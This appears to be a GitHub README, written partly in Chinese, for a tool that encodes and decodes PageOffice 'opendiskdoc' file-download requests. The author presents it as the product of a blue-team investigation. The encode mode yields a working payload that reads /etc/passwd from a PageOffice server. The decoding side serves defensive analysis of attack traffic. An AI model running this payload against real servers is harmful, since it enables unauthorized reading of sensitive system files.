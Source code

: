 # PageOffice_FileDownload
## 分析
某次蓝队防守时发现流量告警，读取了服务器敏感文件。客户要求解密请求字符串，根据页面回显的版本从github找到相应jar进行审计。

<img width="434" alt="image" src="https://github.com/JosT4r/PageOffice_FileDownload/assets/104313845/32eebafd-c395-4db0-9848-562d906fa315">

## package
```
javac Main.java
jar -cvmf MANIFEST.MF PageOffice-FileDownload.jar *.class
```
## env
`jdk1.8`
## Usage
### 1. encode
```
java -jar PageOffice-FileDownload.jar encode /etc/passwd

encode payload:
poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnLDh2OCQpbSJyK2w4cj9uKzsXbiRqL2EXci9tIi0lYThjOCs5ciZjF2s=
```
### 2. decode
```
java -jar PageOffice-FileDownload.jar decode KmcgY3MtLG0jY2VxJnQjZSYxYjVlcStwOmMmcWVkOXEpbiZtKC58Ln8tOXIXcDhzJCs

decode payload:
file=/etc/passwd&filename=1.txt&contenttype=application/octet-stream
```
